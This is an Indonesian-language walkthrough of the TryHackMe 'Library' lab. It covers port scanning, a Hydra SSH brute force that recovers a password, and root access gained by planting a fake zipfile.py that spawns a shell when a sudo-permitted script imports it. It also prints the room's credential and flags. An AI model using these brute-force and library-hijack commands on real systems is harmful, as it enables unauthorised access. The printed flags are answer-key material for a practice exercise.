





# Library — TryHackMe Writeup

**Target:** Library  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Brute Force, Python Library Hijacking, Privilege Escalation

---

## Recon

Seperti biasa dimulai dengan enumerasi port menggunakan Nmap untuk mengetahui attack surface yang tersedia.

```bash
nmap -T4 -Pn -p- --min-rate 5000 <TARGET_IP>
```

Didapatkan dua service yang terbuka.

```
22/tcp open ssh
80/tcp open http
```

Selanjutnya dilakukan service detection.

```bash
nmap -T4 -sC -sV -p22,80 --min-rate 5000 <TARGET_IP>
```



---

## Web Enumeration

Website hanya menampilkan halaman statis berisi Lorem Ipsum tanpa fitur login ataupun input yang menarik. Saat melihat isi halaman, terdapat nama penulis blog yaitu **meliodas**.

```
This is the title of a blog post
Posted on June 29th 2009 by meliodas - 3 comments
```

Selanjutnya dicek `robots.txt`.

```
User-agent: rockyou
Disallow: /
```

Dari sini terdapat dua petunjuk yang cukup jelas:

- Username: **meliodas**
- Wordlist: **rockyou.txt**

Meski begitu, enumerasi web tetap dilanjutkan menggunakan ffuf untuk memastikan tidak ada hidden endpoint yang terlewat.

```bash
ffuf -w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-directories.txt \
-u http://<TARGET_IP>/FUZZ \
-recursion -recursion-depth 3 -fc 404
```



Tidak ditemukan login page maupun directory menarik lainnya. Dengan minimnya attack surface web serta dua petunjuk sebelumnya, besar kemungkinan intended path room ini adalah melakukan brute force terhadap service SSH.

---

## Initial Foothold — SSH Brute Force

Karena hanya SSH yang tersisa sebagai target autentikasi, dilakukan brute force menggunakan Hydra dengan username **meliodas** dan wordlist **rockyou.txt**.

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt -f ssh://<TARGET_IP>
```



Hydra berhasil menemukan credential yang valid.

```
login: meliodas
password: iloveyou1
```

Credential tersebut kemudian digunakan untuk login melalui SSH.



---

## Privilege Escalation — Python Library Hijacking

Langkah pertama setelah mendapatkan shell adalah mengecek hak akses sudo.

```bash
sudo -l
```

Output menunjukkan bahwa user **meliodas** diperbolehkan menjalankan `bak.py` sebagai **root** tanpa password.

```
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Isi script tersebut adalah:

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Awalnya saya mencoba mengecek apakah standard library Python dapat dimodifikasi, namun seluruh library bersifat read-only.

Yang menarik justru terletak pada mekanisme import Python. Saat melakukan `import zipfile`, Python akan mencari module berdasarkan urutan `sys.path`. Current working directory memiliki prioritas sebelum standard library. Karena `bak.py` dijalankan dari `/home/meliodas`, Python akan lebih dahulu mencari `zipfile.py` pada direktori tersebut.

Dengan membuat module palsu bernama `zipfile.py`, proses import akan menggunakan file buatan attacker, bukan library bawaan Python.

```bash
echo 'import os; os.system("/bin/bash")' > zipfile.py
sudo /usr/bin/python3 /home/meliodas/bak.py
```



Saat `bak.py` dijalankan menggunakan `sudo`, interpreter Python berjalan sebagai **root**. Akibatnya payload di dalam `zipfile.py` juga dieksekusi dengan privilege root dan langsung menghasilkan root shell.

---

## Flags

### User Flag

```
6d488cbb3f111d135722c33cb635f4ec
```

### Root Flag

```
e8c8c6c256c35515d1d344ee0488c617
```

---

## Takeaway

Room ini menunjukkan bahwa petunjuk kecil seperti username pada halaman web dan kata **rockyou** pada `robots.txt` dapat menjadi intended path menuju initial foothold ketika attack surface lain tidak tersedia.

Di sisi privilege escalation, celah bukan berasal dari script `bak.py` itu sendiri, melainkan dari mekanisme pencarian module Python. Menjalankan script Python sebagai root dari current working directory yang dapat dikontrol user memungkinkan terjadinya **Python Library Hijacking**, sehingga module palsu milik attacker akan di-import lebih dahulu dibandingkan standard library.
